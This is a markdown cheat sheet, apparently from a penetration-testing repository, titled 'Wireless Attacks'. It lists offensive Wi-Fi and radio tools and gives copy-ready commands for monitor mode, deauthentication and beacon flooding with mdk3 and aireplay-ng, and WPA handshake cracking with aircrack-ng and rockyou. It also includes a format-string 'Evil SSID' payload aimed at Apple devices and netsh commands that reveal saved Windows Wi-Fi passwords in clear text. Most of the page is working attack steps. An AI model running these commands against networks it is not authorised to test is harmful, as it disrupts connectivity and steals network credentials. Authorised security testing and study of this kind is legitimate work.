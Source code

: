 # Wireless Attacks

- [Resources](#Resources)

## Table of Contents

- [Aircrack-ng](#Aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#ALFA-AWUS036ACH)
- [Apple Wi-Fi Evil SSID](#Apple-Wi-Fi-Evil-SSID)
- [mdk3](#mdk3)
- [Microsoft Windows](#Microsoft-Windows)
- [Wi-Fi Example Attack](#Wi-Fi-Example-Attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```c
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```c
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```c
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```c
$ sudo airmon-ng stop wlan0mon
```
